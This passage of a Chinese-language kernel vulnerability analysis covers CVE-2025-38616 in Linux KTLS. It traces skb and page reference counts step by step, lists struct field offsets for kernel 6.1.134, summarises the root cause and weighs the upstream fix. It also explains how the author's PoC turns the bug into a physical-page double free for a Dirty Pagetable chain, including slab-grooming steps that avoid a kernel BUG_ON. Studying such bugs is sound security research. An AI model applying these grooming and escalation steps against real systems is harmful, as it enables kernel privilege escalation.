T5 结束时：`H->dataref=0`（`H` 第二次 `kfree`）、`P1->page_ref=0`（无主 `put_page`），`P1` 在仍被 `pipe->tmp_page` 引用时回到 buddy freelist。`recv()` 返回 `-1 / EBADMSG`——`tls_decrypt_done` 的 `err=-EBADMSG` 经 `tls_decrypt_async_wait` 传回 `recv_end`，与 T3 的 `-EFAULT` 路径不同。本层缺失的不变量是：`WARN_ON + return` 把“数据消失”当作可恢复异常，却不恢复 `stm`、不刷新 anchor、不通知调用方；`tls_rx_rec_wait()` 的返回类型与返回语义使调用方无法感知失败。T3 时 `tcp_inq=768`，早退不触发，刷新执行；T5 时 `tcp_inq=0`，早退触发，悬垂 `frag_list` 被 `tls_strp_msg_hold()` 消费。两次 `tls_sw_recvmsg()` 调用共用同一实现，分叉点完全由 `tls_strp_msg_load()` 的 `WARN_ON` 条件决定。

#### 2-2-8. 引用计数

四层叠加在 T0–T5 上表现为以下引用计数轨迹。表格的约定是：**每行的数值表示该时间点结束时的值**，因此上一行的结束值应等于下一行的进入值。两次 `tls_sw_recvmsg()` 调用（T3、T5）分列同一行，`tls_strp_msg_load()` 的分叉点决定了两行的不同后果：

| 时刻                                      | `H->dataref` | `fclone_ref` | `P1->page_ref` | 关键动作                                                                                                                                                                                                                                          |
| ----------------------------------------- | ------------ | ------------ | -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| T0/T1 前（`__alloc_skb`）                 | 1            | **1**        | 1              | `A` 占用 skb1，skb2 空闲；`P1` 已被 `pipe_buffer` 持有                                                                                                                                                                                            |
| T0/T1（`tcp_build_frag`）                 | 1            | 1            | **2**          | `get_page(P1)`，`P1` 挂入 `frags[0]`                                                                                                                                                                                                              |
| T1（`skb_clone`）                         | **2**        | **2**        | 2              | 复用 skb2 得到 `A_clone`，`dataref 1->2`                                                                                                                                                                                                          |
| T1.5（`tcp_ack` → `tcp_clean_rtx_queue`） | **1**        | **1**        | 2              | `A` 释放：`dataref 2->1` 短路（不 `put_page(P1)`、不 `kfree(H)`）；`fclone_ref 2->1`；队列只剩 `A_clone`                                                                                                                                          |
| T2（`tls_strp_load_anchor_with_queue`）   | 1            | 1            | 2              | `anchor->frag_list = A_clone`（裸指针，不 `skb_get`）；`tls_rx_msg_ready` → wake #1                                                                                                                                                               |
| **T3（第一次 `tls_sw_recvmsg`）**         | 1            | 1            | 2              | `tcp_inq=768 >= 40`，`tls_strp_msg_load` 不早退，刷新执行，`frag_list` 再次写入 `A_clone`；AEAD 同步完成，`copy_to_user` 失败 → `tls_err_abort(-EBADMSG)` → wake #2；`recv()` 返回 `-1 / EFAULT`                                                  |
| T4（tcp reader drain）                    | **0**        | **0**        | **1**          | `A_clone` 释放：`dataref 1->0` 进入 frags 循环（`put_page(P1) 2->1`、`kfree(H)` 第一次）；`fclone_ref 1->0` 释放整个 fclone 块；anchor 悬垂；`H` 落在 CPU 0 freelist 顶部                                                                         |
| T4.5（drain + recycle）                   | 0            | 0            | 1              | 先在 CPU 0 上 free `DUMMY_PAIR_COUNT` 个 `B_head`，把 `H` 推离 CPU 0 freelist 顶部（规避 `BUG_ON(object == fp)` 并屏蔽 `H->shinfo` 被覆盖）；再从 data pipe 读出剩余字节，`P1` 的引用从 `pipe_buffer` 转移到 `pipe->tmp_page`，`_refcount` 保持 1 |
| **T5（第二次 `tls_sw_recvmsg`）**         | **1**        | —            | 1              | `tcp_inq=0 < 40`，`tls_strp_msg_load` 早退；`tls_strp_msg_hold` 克隆悬垂 `A_clone` 为 `n`，`dataref 0->1`（假引用）；AEAD 异步失败，`tls_decrypt_done` → `tls_err_abort(-EBADMSG)`                                                                |
| T5（`recv_end` purge）                    | **0**        | —            | **0**          | `skb_release_data(n)` 中 `dataref 1->0` 再次进入 frags 循环（`put_page(P1) 1->0` 无主、`kfree(H)` 第二次）；`kfree_skbmem(n)` 直接走 head cache；`recv()` 返回 `-1 / EBADMSG`                                                                     |

`fclone_ref` 初始为 1，`skb_clone()` 后才升到 2；`A_clone` 释放使 `fclone_ref` 归零、整个 `sk_buff_fclones` 块消失。`A` 与 `A_clone` 的释放路径分两次：T1.5 释放 `A` 只减 `fclone_ref`、不碰 `H` 与 `P1`；T4 释放 `A_clone` 才第一次 `put_page(P1)` 与第一次 `kfree(H)`。`P1` 的两次 `put_page` 中，只有 T4 那次有合法持有者（`A_clone->frags[0]`），T5 那次没有合法持有者（`n->frags[0]` 来自对已释放 `A_clone` 的 UAF 读）——这正是 Dirty Pagetable 链需要的“物理页级双重释放”的直接体现。T3 与 T5 的 `tls_sw_recvmsg()` 调用共用同一实现，分叉点完全由 `tls_strp_msg_load()` 的 `WARN_ON` 条件（`tcp_inq` 是否为 0）决定。T3 的 AEAD 在同步路径上完成，`tls_err_abort` 由 `tls_sw_recvmsg` 直接调用；T5 的 AEAD 走异步路径，`tls_err_abort` 由 `tls_decrypt_done` 在 workqueue 上下文调用。T4.5 既不改变三类计数，也不直接参与释放，但它把 `H` 推离 CPU 0 freelist 顶部、把 `P1` 的引用从 `pipe_buffer` 转移到 `pipe->tmp_page`——这两步是 T5 能安全完成、以及 T6 能复用 `P1` 的前提；缺少任一步，T5 的 `kfree(H)` 会触发 `BUG_ON(object == fp)`，或 T6 的 `pipe_write` 无法复用 `P1`。

#### 2-2-9. 叠加后果

四层缺失叠加后的直接后果是：T5 结束时 `anchor->frag_list` 指向一块已被释放的内存，而这块内存（`A_clone`）的 `head` 与 `frags[0]` 分别对应 `H` 与 `P1`。三条释放语义在同一时刻呈现不同状态：

- **`sk_buff` 结构体层**：`A_clone` 位于 `skbuff_fclone_cache`，T5 克隆出的 `n` 位于 `skbuff_head_cache`，两者分属不同 slab，释放 `n` 不会再次 `kfree` `A_clone`。结构体层**不发生** double-free。
- **`skb->head` 内存层**：`H` 在 T4（`A_clone` 释放）与 T5（`n` 释放）被 `kfree` 两次。
- **物理页层**：`P1` 在 T4（`A_clone->frags[0]` 合法引用）与 T5（`n->frags[0]` 无合法引用）被 `put_page` 两次。T4 是合法释放，`page_ref` 2→1；T5 是无主释放，`page_ref` 1→0。

结构体层的“不发生”是后两层能独立发生而不被提前打断的前提。若结构体层也 double-free，`kfree_skbmem` 会在 `fclone_ref` 归零时提前触发崩溃，`H` 与 `P1` 的第二次释放无从发生。正因为 `A_clone` 与 `n` 分属两个 slab，`n` 的释放可以安全地走到 `skb_release_data(n)`，让 `H` 与 `P1` 各自完成第二次释放。

物理页层的结果是本文 PoC 区别于官方 PoC 的关键。官方 PoC 的发送侧不引入 pipe page，T5 的悬垂消费只触发 UAF 读与 `BUG()`，构成 DoS；本文 PoC 的发送侧通过 `splice` 注入 `P1`，使 T5 的悬垂消费在 UAF 读之外多执行一次 `put_page(P1)`。这次 `put_page` 没有合法持有者，但 `pipe->tmp_page` 仍指向 `P1`，并承载着从 `pipe_buffer` 转移来的那份 `_refcount` 引用——`P1` 因而在仍被 pipe 跟踪的同时回到 buddy freelist。随后 PTE 页表分配器取回 `P1` 时，pipe 的读写路径与页表页形成重叠，这就是 Dirty Pagetable 链的入口。

没有 `P1`，`H` 的两次 `kfree` 依然会发生，但它只停留在 slab 层；有了 `P1`，`H` 的 slab 层错位才与 `P1` 的无主释放叠加，形成可复用的物理页级原语。这两层的关系是：`H` 的错位是 slab 层的前提，`P1` 的无主释放是物理页层的结果，两者叠加才把漏洞的后果从“一次 UAF 读”提升为“物理页级双重释放”。

这一后果的可用窗口比上游 CPE 列表更窄。后段释放语义还受 `skbuff_small_head`、`skb_data_unref()` 等变化约束：前者改变 `skb->head` 的 cache 归属，使 `H` 不再来自通用 `kmalloc-1k`；后者在 `dataref == bias` 时短路，使 `dataref` 无法归零，`skb_release_data` 不会进入 frags 循环，`P1` 的第二次 `put_page` 不会发生。

三层叠加，才把漏洞的后果从“一次 UAF 读”提升为“可复用的物理页级错位”。三层的“不发生”与“发生”互为前提：结构体层的“不发生”让 `n` 的释放能安全走到 `skb_release_data(n)`；`skb->head` 层的假引用让 `dataref` 能从 0 拉回 1 再归零；物理页层的无主 `put_page` 则是在这条路径上完成的。三层各自的具体机制——结构体层为何走 `else` 分支、`skb->head` 层的 `atomic_inc` 如何拉回 `dataref`、物理页层的两次 `put_page` 为何只有第一次有合法持有者——已在 2-3-7 中展开。

#### 2-2-10. 根因总结

**CVE-2025-38616** 的根因可以凝练为一句话：**TLS ULP 的“接收队列独占”假定缺少内核层面的强制约束，使 tcp reader 与 KTLS parser 对同一条 `sk_receive_queue` 形成了无同步的并发消费；而 anchor 的 `frag_list` 又只借用不持有，使并发消费的后果直接穿透到 `sk_buff` 与物理页层。**

把这句话展开，四层缺失的性质并不相同：

| 层         | 缺失的性质     | 本质问题     |
| ---------- | -------------- | ------------ |
| 挂载点层   | 控制流层缺失   | 所有权未移交 |
| 缓存绑定层 | 数据结构层缺失 | 借用而非持有 |
| 早退分叉层 | 控制流层缺失   | 状态不恢复   |
| 并发消费层 | 控制流层缺失   | 消费者并行   |

三层控制流缺失与一层数据结构缺失的关系是“触发条件”与“传导媒介”。三层控制流缺失让 `frag_list` 的裸指针语义被实际触发——tcp reader 留在旧栈帧（挂载点层）、在 parser 背后摘除并释放 skb（并发消费层）、早退后不刷新 anchor（早退分叉层）；一层数据结构缺失让这一触发得以传导到 `sk_buff` 与物理页层——`frag_list` 没有引用计数，anchor 无从感知队列侧 skb 的释放。两者缺一，悬垂窗口即不成立。

这三层控制流缺失不是“某个函数少写了一行”，而是 TLS ULP 对接收队列“独占所有权”的**隐含假定**从未被内核固化为代码不变量。只要这一假定仍以“隐含”形式存在，tcp reader 与 KTLS parser 的并发消费就可能在任何版本上重新出现。四层中任意一层被修复，只能阻断当前版本的悬垂窗口，不能消除“所有权未显式移交”这一结构性根因。

上游修复 `6db015fc4b5d` 只补了早退分叉层：它把 `WARN_ON + return` 改为清空 `stm` 并返回 `false`，切断了“T5 早退后继续消费悬垂 `frag_list`”的路径；但它没有触及挂载点层的消费者检查、缓存绑定层的引用计数、并发消费层的路径互斥。从根因层次看，上游修复处理的是四层中“最靠近触发点”的一层，而“最靠近根因”的挂载点层与缓存绑定层仍然保持原状。修复 `6db015fc4b5d` 让当前的悬垂窗口关闭，但没有让“TLS ULP 假定接收队列独占”这一结构性假定变为代码不变量——只要这一假定仍以隐含形式存在，未来任何新的并发消费入口都可能重新打开类似的窗口。

### 2-3. 核心数据结构

**CVE-2025-38616** 的整条链横跨四层结构体：KTLS 框架层负责解析器状态，`sk_buff` 结构体层负责数据包生命周期，`skb` 数据区层负责 `H` 与 `frags[]`，物理页与 pipe 层负责 `P1` 的引用计数。三层引用计数——`fclone_ref`、`dataref`、`page_ref`——分别管辖前三个层次，每一类归零时触发不同层次的释放。理解这四层与三类计数，是理解整条链释放语义的前提。以下字段偏移均取自 6.1.134 内核在 x86_64 上的布局；条目后的 `(0xXX)` 是该字段在其所属结构体内的字节偏移。

#### 2-3-1. 四层对象与三类计数

四层结构体之间的持有关系可以用下面的列表表示。缩进表示持有关系，“裸指针”标注表示该字段不持引用计数；各计数后的数值为 T0/T1 结束时的快照。

```
tls_sw_context_rx (ctx)
  strp: tls_strparser
    anchor                     →  anchor 伪 skb
      shinfo(anchor)
        frag_list              →  裸指针，指向当前首 skb
    stm.full_len = 40
    msg_ready

sk_buff_fclones
  skb1: A
    fclone = SKB_FCLONE_ORIG
    head                       →  H
    shinfo(A)->frags[0].bv_page →  P1
  skb2: A_clone
    fclone = SKB_FCLONE_CLONE
    head                       →  H
    shinfo(A_clone)->frags[0].bv_page →  P1
  fclone_ref = 2

H (kmalloc-1k) + shinfo(H)
  dataref = 2
  nr_frags = 1
  frags[0].bv_page             →  P1

P1 (struct page)
  _refcount = 2
    ↑ 由 pipe->bufs[0].page 持有
    ↑ 由 shinfo(A)->frags[0].bv_page 与 shinfo(A_clone)->frags[0].bv_page 共享

pipe_inode_info
  tmp_page                     →  NULL（T4.5 的 anon_pipe_buf_release 才缓存 P1）
  bufs[0].page                 →  P1，持 page_ref 一份（offset=768, len=1280）
```

`shinfo(skb)` 是 `skb_shinfo(skb)` 的简写，其展开是 `(struct skb_shared_info *)(skb->head + skb->end)`。`sk_buff` 本身没有 `frags` 字段；`frags[]` 是 `skb_shared_info` 的字段，`A` / `A_clone` 通过 `head` 间接到达 `skb_shared_info`，再到达 `frags[0]`。`skb_shared_info` 在同一块 `H` 内被 `A` 与 `A_clone` 共享，因此 `shinfo(A)` 与 `shinfo(A_clone)` 指向同一块内存。

三个字段在同一块 `skb_shared_info` 内，但角色完全不同：`frag_list` 是裸指针，由 anchor 缓存，指向接收队列首 skb；`dataref` 是 `H` 的引用计数；`frags[0].bv_page` 是 `P1` 的指针。两处与生命周期管理相关的字段是整条链的关键：`shinfo->frag_list` 由 anchor 缓存，不持引用计数——它让 `A_clone` 的释放无法被 anchor 感知；`pipe_inode_info->tmp_page` 在 T4.5 接管 `pipe_buffer` 转移来的引用，使 `P1` 在 `pipe_buffer` 释放后仍被 pipe 跟踪；但 `tmp_page` 本身没有自己的 `get_page()`，T5 的 `put_page(P1)` 会直接消耗这份转移来的引用——pipe 复用路径对这份引用的耗散一无所知。两者叠加，才使 T5 的 `skb_clone` 能够从已释放的 `A_clone` 中读出 `H` 与 `P1`，并把 `P1` 的引用计数从 1 推到 0。

三类计数的管辖范围是嵌套的，对应到具体的结构体字段：

| 计数         | 所属结构体        | 字段偏移            | 管辖对象                          | 归零时的函数                                    |
| ------------ | ----------------- | ------------------- | --------------------------------- | ----------------------------------------------- |
| `fclone_ref` | `sk_buff_fclones` | 0x1d0               | 整个 fclone 块（`skb1` + `skb2`） | `kmem_cache_free(skbuff_fclone_cache, fclones)` |
| `dataref`    | `skb_shared_info` | 0x20                | `H` 数据区与 `frags[]`            | `kfree(H)` + 逐个 `put_page(frags[i])`          |
| `page_ref`   | `page`            | 0x34（`_refcount`） | `P1` 这一物理页                   | 归还 buddy freelist                             |

`fclone_ref` 管结构体，`dataref` 管数据区，`page_ref` 管物理页。三者的归零时机与对象层次都不同：`fclone_ref` 归零时整个 `sk_buff_fclones` 块消失，`dataref` 归零时 `H` 被 `kfree` 且 `frags[]` 被逐个 `put_page`，`page_ref` 归零时 `P1` 被归还 buddy freelist。三层计数独立，才使结构体层不发生朴素 double-free、而数据层与物理页层各自发生 double-free。

接下来四节分别展开四层结构体的布局与关键字段，第六节按 T0–T5 展示对象关系变化，第七节深入分析三层释放在 T4 与 T5 两次释放中的各自状态。

#### 2-3-2. KTLS 框架层

KTLS 框架层由 `tls_context`、`tls_sw_context_rx`、`tls_strparser` 三级嵌套构成。`tls_context` 是 ULP 的顶层上下文，由 `tls_init()` 创建；其 `priv_ctx_rx` 字段指向 `tls_sw_context_rx`，后者内嵌 `tls_strparser`。三级嵌套决定了 KTLS 各函数的作用域：`tls_strp_load_anchor_with_queue()` 操作的是最内层的 `tls_strparser`，`tls_sw_recvmsg()` 操作的是中层的 `tls_sw_context_rx`，`tls_setsockopt()` 操作的是最外层的 `tls_context`。

```
struct tls_context (328 B):
  prot_info          0x00 (20 B)   ← tls_prot_info
  tx_conf:3          0x14:0
  rx_conf:3          0x14:3        ← TLS_RX 后置为 TLS_SW
  priv_ctx_rx        0x30          → tls_sw_context_rx
  sk                 0xa0          → conn 的 struct sock
  crypto_send        0xb0 (56 B)
  crypto_recv        0xe8 (56 B)   ← TLS_RX 的 crypto 参数

struct tls_sw_context_rx (208 B):
  aead_recv          0x00          → struct crypto_aead
  async_wait         0x08 (40 B)
  rx_list            0x30 (24 B)   ← sk_buff_head
  saved_data_ready   0x48          → tcp_data_ready（wake #1 回调）
  async_capable:1    0x51:0
  strp               0x58 (64 B)   → tls_strparser
  decrypt_pending    0x98
  async_hold         0xa0 (24 B)   ← sk_buff_head；T5 的 n 挂这里
  wq                 0xb8 (24 B)

struct tls_strparser (64 B):
  sk                 0x00          → conn 的 struct sock
  mark:8             0x08          ← TLS record type
  stopped:1          0x09:0
  copy_mode:1        0x09:1
  msg_ready:1        0x09:3        ← tls_rx_rec_wait 等待条件
  stm.full_len       0x0c          ← 本例 40
  stm.offset         0x10          ← record 在首 skb 内偏移（本例 41）
  anchor             0x18          → anchor 伪 skb
  work               0x20 (32 B)
```

三个字段在这一层承担关键作用。`strp.stm.full_len`（0x0c）与 `strp.stm.offset`（0x10）是 `tls_strp_msg_load()` 的早退判据：T3 时 `tcp_inq()=768 >= full_len=40`，早退不触发，刷新执行；T5 时 `tcp_inq()=0 < full_len=40`，早退触发，`stm` 不被清理、`offset` 不被更新。`strp.anchor`（0x18）是 anchor 伪 skb 的指针，其 `shinfo->frag_list` 缓存接收队列首 skb，这一缓存在 T2 与 T5 之间从“指向 `A_clone`”变成“指向已释放的 `A_clone`”。`saved_data_ready`（0x48）保存的是 KTLS 安装前的 `tcp_data_ready`，`tls_rx_msg_ready()` 通过它唤醒 tcp reader（wake #1）；而 `tls_err_abort()` 经 `sk_error_report()` 唤醒 tcp reader（wake #2），**wake #2 不经过 `saved_data_ready`**，但两条唤醒路径都作用于同一个 `sk_wait_data()` 挂入的等待队列。

#### 2-3-3. sk_buff 结构体层

`sk_buff` 结构体层由 `sk_buff`、`sk_buff_fclones`、`sk_buff_head` 三部分组成。`sk_buff` 是网络包描述符；`sk_buff_fclones` 是 fclone 块，容纳 `A` 与 `A_clone` 两个 `sk_buff`；`sk_buff_head` 是 skb 队列头，`conn->sk_receive_queue` 与 `ctx->async_hold` 都是 `sk_buff_head`。这一层是 T4 与 T5 两次释放的承载者：T4 释放的是 `A_clone` 这个 `sk_buff`，T5 释放的是 `n` 这个 `sk_buff`；两者的结构体地址不同，`fclone` 位域不同，释放路径也不同。

```
struct sk_buff (232 B):
  next / prev            0x00 / 0x08
  sk                     0x18          → 所属 sock
  cb[48]                 0x28          ← strp_msg 与 tls_msg 存储区
  destructor             0x60          ← 本例 sock_rfree，同 CPU 走 nodefer 立即释放
  len                    0x70
  data_len               0x74
  cloned:1               0x7e:0        ← A 与 A_clone 均为 1
  nohdr:1                0x7e:1
  fclone:2               0x7e:2        ← 00=UNAVAILABLE, 01=ORIG, 10=CLONE
  head_frag:1            0x7e:5        ← 决定 skb_free_head 走哪条分支
  pp_recycle:1           0x7e:7
  alloc_cpu              0xa0          ← skb_attempt_defer_free 据此判断跨 CPU
  end                    0xc0          ← H 尾部距 head 的偏移
  head                   0xc8          → H（kmalloc-1k）
  data                   0xd0
  truesize               0xd8
  users                  0xdc          ← skb_unref 判据

struct sk_buff_fclones (472 B，推断):
  skb1                   0x00 (232 B)  ← A
    fclone = SKB_FCLONE_ORIG
  skb2                   0xe8 (232 B)  ← A_clone
    fclone = SKB_FCLONE_CLONE
  fclone_ref             0x1d0         ← 初始 1，skb_clone 后升到 2

struct sk_buff_head (24 B):
  next                   0x00
  prev                   0x08
  qlen                   0x10
  lock                   0x14
```

四个字段在这一层承担关键作用。`sk_buff->cb[48]`（0x28）是 `strp_msg` 与 `tls_msg` 的存储区：`strp_msg(skb)` 与 `tls_msg(skb)` 由 `tls.h` 中的 helper 在 `cb` 上做类型化视图，两个结构体在 `cb` 内的具体偏移由 helper 的内联展开决定，不依赖固定的 `cb + 0x??` 偏移；`strp_msg` 记录 `full_len` 与 `offset`，`tls_msg` 记录 `control`（record type）。`sk_buff->head`（0xc8）指向 `H`，`skb_shared_info` 位于 `H + skb->end`（0xc0）——`skb_shinfo(skb)` 的实际地址是 `skb->head + skb->end`，因此 `skb_shared_info` 在 `H` 的尾部而非独立分配，`kfree(H)` 同时释放 `H` 与 `skb_shared_info`。`sk_buff->fclone` 位域（0x7e:2）决定 `kfree_skbmem()` 的分支：`SKB_FCLONE_ORIG` 走 `container_of(skb, sk_buff_fclones, skb1)`，`SKB_FCLONE_CLONE` 走 `container_of(skb, sk_buff_fclones, skb2)`，`SKB_FCLONE_UNAVAILABLE` 直接 `kmem_cache_free(skbuff_head_cache, skb)`。`sk_buff->alloc_cpu`（0xa0）决定 `skb_attempt_defer_free()` 的分支：本 CPU 时直接 `__kfree_skb`（即 `nodefer:`），跨 CPU 时才挂入 `softnet_data.defer_list` 延迟释放；tcp reader 与 client 同处 CPU 0，`A_clone` 也在 CPU 0 上分配，同 CPU 因此走 `nodefer` 立即释放，T4 结束时 `H` 与 `P1` 的第一次释放已完成。

#### 2-3-4. skb 数据区层

`skb` 数据区层由 `skb_shared_info` 与 `skb_frag_t` 组成。`skb_shared_info` 位于 `H` 尾部，其 `frag_list` 是 anchor 缓存的裸指针，`dataref` 是 `H` 的引用计数，`frags[0].bv_page` 指向 `P1`。`skb_frag_t` 在 6.1.134 中是 `struct bio_vec` 的别名，字段顺序为 `bv_page` / `bv_len` / `bv_offset`。这一层是三层释放语义的交汇点：`frag_list` 的裸指针语义让 anchor 无法感知 `A_clone` 的释放，`dataref` 的归零决定 `H` 的两次 `kfree`，`frags[0].bv_page` 的两次 `put_page` 决定 `P1` 的两次递减。

```
struct skb_shared_info (320 B，位于 H + skb->end):
  flags                  0x00
  meta_len               0x01
  nr_frags               0x02          ← 本例为 1
  tx_flags               0x03
  gso_size               0x04
  gso_segs               0x06
  frag_list              0x08          → 裸指针，指向 A_clone
  hwtstamps              0x10 (8 B)
  gso_type               0x18
  tskey                  0x1c
  dataref                0x20          ← H 的引用计数；初始 1，skb_clone 后升到 2
  xdp_frags_size         0x24
  destructor_arg         0x28
  frags[17]              0x30 (272 B)
    frags[0]             0x30
      bv_page            0x30          → P1
      bv_len             0x38
      bv_offset          0x3c
    frags[1..16]         0x40..0x130

skb_frag_t = struct bio_vec (16 B):
  bv_page                0x00          → struct page
  bv_len                 0x08
  bv_offset              0x0c
```

三个字段虽然同处一块 `skb_shared_info`，但触发路径完全不同：`frag_list` 是裸指针（anchor 缓存），`dataref` 是 `H` 的引用计数，`frags[0].bv_page` 是 `P1` 的指针。T2 的 `anchor->shinfo->frag_list = first`、T4 的 `dataref 1->0` 与 `put_page(P1)`、T5 的 `dataref 0->1` 与 `put_page(P1)` 分别作用于这三个字段，三者在同一块 `skb_shared_info` 内，但触发路径完全不同。`skb_frag_t` 的字段顺序是 `bv_page` / `bv_len` / `bv_offset`，与 `struct bio_vec` 一致。`skb_shared_info` 不是独立分配的对象，而是 `H` 尾部的尾随结构；`skb_release_data()` 在 `kfree(H)` 之前遍历 `frags[]` 并对每个 `bv_page` 执行 `put_page`，T4 的 `kfree(H)` 第一次、T5 的 `kfree(H)` 第二次，都是对 `H` 与 `skb_shared_info` 的联合释放。

#### 2-3-5. 物理页与 pipe 层

物理页与 pipe 层由 `page`、`pipe_inode_info`、`pipe_buffer` 组成。`page` 是物理页描述符，`P1` 的 `page_ref` 在 `_refcount`；`pipe_inode_info` 的 `tmp_page` 缓存页裸指针；`pipe_buffer` 的 `page` 持有 `page_ref` 一份。这一层是物理页级错位的承载者：`P1` 在 T4 被合法释放一次，在 T5 被无主释放一次，`page_ref` 归零时归还给 buddy freelist，而 `pipe->tmp_page` 仍指向 `P1`。

```
struct page (64 B):
  flags                  0x00
  union                  0x08 (40 B)   ← lru / buddy_list / pcp_list 等
  _mapcount              0x30
  _refcount              0x34          ← P1 的 page_ref
  memcg_data             0x38

struct pipe_inode_info (176 B):
  mutex                  0x00 (32 B)
  rd_wait                0x20
  wr_wait                0x38
  head                   0x50
  tail                   0x54
  max_usage              0x58
  ring_size              0x5c
  nr_accounted           0x64
  readers                0x68
  writers                0x6c
  files                  0x70
  tmp_page               0x80          → 裸指针，T4.5 起指向 P1
  fasync_readers         0x88
  fasync_writers         0x90
  bufs                   0x98          → pipe_buffer 数组
  user                   0xa0
  watch_queue            0xa8

struct pipe_buffer (40 B):
  page                   0x00          → P1，持 page_ref 一份
  offset                 0x08
  len                    0x0c
  ops                    0x10
  flags                  0x18
  private                0x20
```

这一层的两处持有者需要区分清楚。`pipe->tmp_page` 与 `pipe_buffer->page` 是 `P1` 的两处引用，但语义不同：`pipe_buffer->page` 通过 `get_page()` 持有一份 `page_ref`；`tmp_page` 承载的是 `anon_pipe_buf_release` 从 `pipe_buffer` **转移**来的引用——释放时若 `page_count(page) == 1`，不 `put_page`，而是把这一页缓存到 `tmp_page`。`tmp_page` 因此不是"额外增加"引用，但也并非"不持引用"——它持有的是原本属于 `pipe_buffer` 的那一份。这一转移语义是 T4.5 之后 `P1` 仍被 pipe 跟踪、T6 `pipe_write` 能复用 `tmp_page`、以及 T5 purge 的 `put_page` 能把 `_refcount` 从 1 降到 0 的共同前提。

`_refcount`（0x34）是 `page_ref` 的实际存储位置，`put_page()` 对 `_refcount` 执行原子递减，归零时把 `page` 归还给 buddy freelist。`tmp_page` 的语义是"从 `pipe_buffer` 接管引用后的缓存"：pipe 在 `pipe_release` 或 buffer 回收时把 `page` 缓存到 `tmp_page`，下次 `pipe_write` 时优先复用 `tmp_page` 而不是重新分配。如果 `tmp_page` 指向的页已被归还给 buddy freelist，pipe 的复用路径会拿到一块已被其他子系统占用的内存——这正是物理页级错位的直接来源。

#### 2-3-6. T0–T5 对象关系变化

四层结构体在 T0–T5 上的关系变化，可以用五个字段来标注：`sk_buff` 的 `head` 与 `fclone`、`skb_shared_info` 的 `frag_list` / `dataref` / `frags[0]`、`page` 的 `_refcount`、`pipe_inode_info` 的 `tmp_page`。以下各时间点只标注这五个字段；`shinfo(A)` 与 `shinfo(A_clone)` 指向同一块内存，`shinfo(n)` 也指向这块内存（`n` 从悬垂 `A_clone` 读出 `head = H`）。

**T0/T1 — 发送与绑定建立**

```
conn.sk_receive_queue:
  A_clone                      ← tcp_transmit_skb 经 loopback 送入 conn

sk_buff_fclones:
  skb1 A:       fclone=ORIG    head → H    shinfo(A)->frags[0] → P1       users=1
  skb2 A_clone: fclone=CLONE   head → H    shinfo(A_clone)->frags[0] → P1  users=1
  fclone_ref = 2

H + skb_shared_info:
  frag_list = NULL
  dataref = 2
  frags[0].bv_page → P1

P1 (struct page):
  _refcount = 2
    持有者：pipe->bufs[0].page、shinfo(A/A_clone)->frags[0].bv_page
```

T0/T1 结束时 `fclone_ref=2`、`dataref=2`、`P1->_refcount=2`。`A` 与 `A_clone` 共享 `H` 与 `P1`，但各持 `fclone_ref` 一份——这一共享关系是 T1.5 两条释放路径分叉的前提。

**T1.5 — ACK 到达，A 被释放**

```
sk_buff_fclones:
  skb1 A:       (空槽位)
  skb2 A_clone: head → H    shinfo(A_clone)->frags[0] → P1
  fclone_ref = 1       ← A 释放只减 fclone_ref

H + skb_shared_info:
  frag_list = NULL
  dataref = 1          ← A 释放时 2->1 短路
  frags[0].bv_page → P1

P1:
  _refcount = 2        ← 不变

conn.sk_receive_queue:
  A_clone
```

T1.5 结束时 `fclone_ref=1`、`dataref=1`、`P1->_refcount=2`。`A` 的释放只减 `fclone_ref`，`H` 与 `P1` 都不动——这是 T4 的 `dataref 1->0` 之所以从 1 而不是 2 开始递减的直接原因。

**T2/T3 — anchor 绑定**

```
tls_sw_context_rx.strp:
  anchor → anchor 伪 skb
  stm.full_len = 40
  stm.offset = 41
  msg_ready = 1

shinfo(anchor):
  frag_list → A_clone       ← 裸指针，不带引用计数

sk_buff_fclones:
  skb1 A:       (空)
  skb2 A_clone: head → H    fclone=CLONE
  fclone_ref = 1

H + skb_shared_info:
  dataref = 1
  frags[0].bv_page → P1

P1:
  _refcount = 2
```

T2 与 T3 结束时 `shinfo(anchor)->frag_list` 指向 `A_clone`，`A_clone` 仍存活。T3 刷新 anchor 时再次写入的仍是 `A_clone`——`A` 已在 T1.5 释放，队列首 skb 只剩 `A_clone`。

**T4 — tcp reader drain，A_clone 释放**

```
shinfo(anchor):
  frag_list → (悬垂，指向已释放的 A_clone)

H + skb_shared_info:
  dataref = 0                  ← 进入 frags 循环
  frags[0].bv_page → P1
  kfree(H) 第 1 次
  H 位于 CPU 0 kmalloc-1k freelist 顶部

P1:
  _refcount = 1                ← put_page 第 1 次（合法释放）
  持有者：仅 pipe->bufs[0].page

sk_buff_fclones:
  (已释放，fclone_ref = 0)
  kfree_skbmem(A_clone)
```

T4 结束时 `fclone_ref=0`，整个 `sk_buff_fclones` 块消失；`dataref=0`，`H` 第一次 `kfree`，落在 CPU 0 的 `kmalloc-1k` freelist 顶部；`P1->_refcount=1`，`shinfo(A_clone)->frags[0]` 的引用被合法释放，只剩 `pipe->bufs[0].page` 持有。`shinfo(anchor)->frag_list` 仍保留 `A_clone` 的地址——该地址所指向的 fclone 块已被回收，`frag_list` 成为悬垂指针。

**T4.5 — dummy B_head drain 与 P1 转入 tmp_page**

T4 之后、T5 之前，主线程完成两步彼此独立、作用于不同对象的操作：先在 CPU 0 上 drain `DUMMY_PAIR_COUNT` 个 dummy `B_head`，作用于 `kmalloc-1k` 的 per-CPU freelist；再从 data pipe 读出剩余字节，作用于 pipe 的 `tmp_page`。两步互不依赖，顺序不影响结果。

```
dummy B_head drain:
  释放 DUMMY_PAIR_COUNT 个 B_head 到 CPU 0 kmalloc-1k freelist
  H 从 freelist 顶部被推到第 DUMMY_PAIR_COUNT+1 位
    ↑ T5 第二次 kfree(H) 时 H 不在顶部，BUG_ON(object == fp) 不触发
    ↑ H->shinfo 不被后续 CPU 0 分配覆盖，frags[0] = P1 保留到 T5

read(data_pipe):
  anon_pipe_buf_release 看到 page_count == 1
    → 把 P1 缓存到 pipe->tmp_page，不调用 put_page
    → pipe_buffer 的原引用经 tmp_page 保留，_refcount 不变

P1:
  _refcount = 1
    引用归属：pipe->tmp_page（原 pipe_buffer 的引用经 anon_pipe_buf_release 转移，未 put_page）
    pipe_buffer 不再持有
```

